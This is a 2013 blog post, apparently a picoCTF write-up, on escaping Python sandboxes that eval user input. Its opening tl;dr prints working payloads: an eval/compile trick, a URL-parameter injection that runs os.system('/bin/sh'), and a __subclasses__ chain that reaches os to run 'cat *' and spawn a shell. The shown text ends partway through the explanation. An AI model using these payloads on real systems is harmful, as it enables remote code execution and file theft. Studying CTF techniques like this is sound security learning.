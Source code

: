 ```yaml
---
layout: post
title:  "Escaping the Python Sandbox"
date:   2013-05-06
---
```


([ROP](http://www.zolmeister.com/2013/05/rop-return-oriented-programming-basics.html), [Overflow](http://www.zolmeister.com/2013/05/buffer-overflows-basics.html), [format 2](http://haeresy.tumblr.com/post/49835546090/format-2), [mildly evil](http://haeresy.tumblr.com/post/49815517485/mildly-evil), [more evil](http://haeresy.tumblr.com/post/49837209727/moreevil),&nbsp;[broken cbc](https://gist.github.com/11rcombs/5530361#file-aespaddingoracle-py),&nbsp;[evergreen](https://gist.github.com/11rcombs/5530211)&nbsp;([2](https://gist.github.com/Zolmeister/5530473)), [black hole](http://haeresy.tumblr.com/post/49832356680/black-hole), [broken rsa](http://jonathanzong.com/picoctf/2013/05/07/broken-rsa-180-jonathan)([2](https://gist.github.com/11rcombs/5530290)), [chromatophoria](https://gist.github.com/Zolmeister/5530477)([2](https://gist.github.com/11rcombs/5530201#file-steg-js))([3](http://sturzu.org/blog/posts/chromatophoria-100)), [harder serial](https://gist.github.com/Zolmeister/5530463),&nbsp;[robomunication](https://gist.github.com/Zolmeister/5530467))

tl;dr

`eval(compile('print key', '<stdin>', 'exec'))`
```
GET /index.html?a="}+eval("__import__('os').system('/bin/sh')")+{"
```
```
__builtins__['ww']=().__class__.__base__
__builtins__['w']=ww.__subclasses__()
__builtins__['y']=w[53].__enter__.__func__
__builtins__['a']=y.__globals__['linecache']
__builtins__['os']=a.checkcache.__globals__['os']
os.system('cat *')
().__class__.__base__`.__subclasses__()[53].__enter__.__func__.__globals__['linecache'].checkcache.__globals__['os'].system('sh')
```
This post is a write up of how I solved the python problems from [picoCTF](https://picoctf.com/). Basically the problems consist of a&nbsp;piece&nbsp;of python code, which takes user input, and then eval's it. Eval then allows us to get a shell. Lets explore.
```
	 # example1.py
     x = input("enter something to eval:\n")
     print "x:",x
```
This is python2.7, which means that the proper way to get input is with "raw_input". The issue with "input" is that it eval's the string. That means we can do things like this:
```
	enter something to eval:
     2*100
     x: 200
```
But if we try to do something like this:
```
     enter something to eval:
     print "hello world"
     Traceback (most recent call last):
      File "pytest.py", line 2, in <module>
       x = input("enter something to eval:\n")
      File "<string>", line 1
       print "hello world"
         ^
     SyntaxError: invalid syntax
```
We get an error. This is because [eval](http://docs.python.org/2/library/functions.html#eval) evaluates an _expression_. However we can get around this limitation by running some special code:
```
eval(compile('print "hello world"', '<stdin>', 'exec'))
```